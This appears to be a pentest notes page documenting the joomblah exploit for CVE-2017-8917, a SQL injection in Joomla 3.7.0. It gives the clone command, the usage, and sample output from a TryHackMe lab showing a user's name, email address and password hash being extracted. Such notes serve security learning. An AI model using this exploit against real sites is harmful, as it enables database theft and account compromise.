 ```yaml
---
title : "CVE-2017-8917"
# pre : ' '
description : "SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah."
date : 2021-06-18T19:30:01+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

## Installation

{{%attachments fa_icon_class="far fa-file-code" pattern=".*(py)"/%}}

```plain
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```plain
joomblah.py [-h] url
```

## Flags

```plain
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```plain
$ python joomblah.py http://10.10.181.117/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## URL List

- [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
